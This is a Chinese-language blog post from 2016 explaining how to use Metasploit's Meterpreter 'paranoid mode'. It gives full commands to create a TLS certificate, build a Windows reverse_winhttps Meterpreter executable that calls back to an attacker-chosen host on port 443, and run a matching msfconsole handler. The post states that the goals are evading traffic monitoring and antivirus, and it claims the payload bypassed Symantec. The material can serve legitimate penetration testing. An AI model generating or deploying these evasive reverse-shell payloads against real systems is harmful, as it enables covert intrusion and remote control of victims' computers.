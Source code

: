 ```yaml
---
layout: post
title:  "MSF偏执模式"
date:   2016-11-23 17:00:01 +0800
categories: MSF
tag: Bypass AV 
---
```


* content
{:toc}



在某些环境下，我们需要用到meterpreter的偏执模式(paranoid mode)。

偏执模式在面对接受的请求很多的时候，可以有效过滤筛选回连的请求，只留下自己所需要的。

同时，因为其使用了SSL/TLS 认证，因此在应对流量监控和分析时，有很不错的效果，当然也能够Bypass av(by data stream)。

创建一个SSL/TLS证书
-------------

在kali或者其他带有openssl的环境下：

    $ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
        -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=green-m.github.io" \
        -keyout green-m.github.io.key \
        -out green-m.github.io.crt && \
    cat green-m.github.io.key  green-m.github.io.crt > green-m.github.io.pem && \
    rm -f green-m.github.io.key  green-m.github.io.crt

你可以把green-m.github.io这个URL改成任意你想回连的地址，直接指定相应IP也可以。

如果你能搞到一个受信任的证书颁发机构签名的SSL/TLS证书，那就碉堡了，流量直接畅通无阻。

生成偏执模式的payload
--------------

    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=green-m.github.io LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./green-m.github.io.pem StagerVerifySSLCert=true PayloadUUIDName=Green_m -f exe -o ./Green_m.exe

通过设置PayloadUUIDTracking和PayloadUUIDName可以在监听的时候过滤掉不需要的回连请求。为了Bypass av的需求，你还可以生成shellcode来自己编译。

如果网络环境不好，你还可以使用stageless的payload，-p参数指定windows/meterpreter_reverse_https，其他不用修改。

监听偏执模式
------

    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_winhttps
    set LHOST green-m.github.io
    set LPORT 443
    set HandlerSSLCert ./green-m.github.io.pem
    set IgnoreUnknownPayloads true
    set StagerVerifySSLCert true
    set exitonsession false
    run -j -z

设置HandlerSSLCert和StagerVerifySSLCert参数来使用TLS pinning，IgnoreUnknownPayloads接受白名单的payload。

同上，stageless 修改相应payload。

**总结：偏执模式基于SSL/TLS认证过某些流量监控效果应该很不错，测试也过了symantec，仅供参考。**



参考文章：https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode#create-a-ssltls-certificate


转载请注明出处：[https://green-m.github.io/2016/11/23/msf-paranoid-mode/](https://green-m.github.io/2016/11/23/msf-paranoid-mode/)